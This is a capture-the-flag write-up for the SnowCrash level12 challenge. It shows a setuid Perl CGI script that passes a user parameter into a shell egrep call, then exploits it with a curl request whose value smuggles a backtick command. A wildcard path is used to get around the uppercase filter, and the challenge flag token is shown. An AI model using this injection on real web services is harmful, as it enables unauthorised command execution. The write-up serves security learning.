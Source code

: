 ```
level12@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
-r-x------  1 level12 level12  675 Apr  3  2012 .profile

level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));

level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..
```
We have another perl script which takes the first argument, transforms all its letters to uppercase, deletes all symbols after first whitespace and runs `egrep` command. This output line we will exploit but previous transformations require us to be tricky:

```
level12@SnowCrash:~$ vim /tmp/LVL

level12@SnowCrash:~$ cat /tmp/LVL
#!/bin/sh
getflag > /tmp/twelve

level12@SnowCrash:~$ chmod 777 /tmp/LVL

level12@SnowCrash:~$ ls -la /tmp/LVL
-rwxrwxrwx 1 level12 level12 32 Sep 21 22:03 /tmp/LVL

level12@SnowCrash:~$ curl localhost:4646?x='`/*/LVL`'
..

level12@SnowCrash:~$ cat /tmp/twelve
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

